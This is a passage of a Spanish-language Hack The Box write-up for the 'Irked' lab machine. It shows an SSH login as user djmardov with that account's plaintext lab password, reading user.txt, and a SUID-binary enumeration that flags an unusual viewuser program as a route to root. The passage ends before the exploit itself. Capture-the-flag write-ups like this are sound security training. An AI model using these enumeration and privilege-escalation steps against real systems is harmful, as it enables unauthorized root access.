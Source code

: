 ```text
xbytemx@laptop:~/htb/irked$ ssh djmardov@10.10.10.117
djmardov@10.10.10.117's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have mail.
Last login: Wed Apr  3 20:04:44 2019 from 10.10.15.118
djmardov@irked:~$
```

Perfecto, ya hemos pasado de ircd a djmardov.

> creds: djmardov / Kab6h+m+bbp2J:HG

# cat user.txt

```text
djmardov@irked:~$ cat Documents/user.txt
```

# Privesc from djmardov to root

Después de enumerar un poco, cuando busque archivos con SETUID, me llama la atención algo en particular:

```text
djmardov@irked:/dev/shm$ find /usr/ -perm /4000
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/sbin/exim4
/usr/sbin/pppd
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/X
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/viewuser
```

Ese archivo viewuser no se me hacia conocido de ningun lugar, inclusive lo busque dentro de los repos de debian:
